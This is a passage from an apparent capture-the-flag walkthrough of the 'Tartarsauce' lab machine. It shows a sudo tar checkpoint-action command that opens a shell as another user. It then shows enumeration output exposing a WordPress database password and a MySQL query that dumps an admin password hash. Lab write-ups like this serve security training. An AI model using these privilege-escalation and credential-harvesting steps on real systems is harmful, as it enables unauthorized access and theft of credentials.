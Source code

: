 - use tar to priv esca: `sudo -u onuma /bin/tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh`

![image-20231218080733151](./Tartarsauce.assets/image-20231218080733151.png)

### onuma -> root

- enum mysql 3306 -> nothing found

![image-20231218080802585](./Tartarsauce.assets/image-20231218080802585.png)

```bash
╔══════════╣ Searching passwords in config PHP files
/var/www/html/webservices/wp/wp-admin/setup-config.php: $pwd = trim( wp_unslash( $_POST[ 'pwd' ] ) );
/var/www/html/webservices/wp/wp-admin/setup-config.php: define('DB_PASSWORD', $pwd);
/var/www/html/webservices/wp/wp-admin/setup-config.php: define('DB_USER', $uname);
/var/www/html/webservices/wp/wp-config.php:define('DB_PASSWORD', 'w0rdpr3$$d@t@b@$3@cc3$$');
/var/www/html/webservices/wp/wp-config.php:define('DB_USER', 'wpuser');

mysql -u wpuser -p # w0rdpr3$$d@t@b@$3@cc3$$
mysql> select user_pass,user_nicename from wp_users;
select user_pass,user_nicename from wp_users;
+------------------------------------+---------------+
| user_pass                          | user_nicename |
+------------------------------------+---------------+
| $P$BBU0yjydBz9THONExe2kPEsvtjStGe1 | wpadmin       |
+------------------------------------+---------------+
1 row in set (0.00 sec)
```
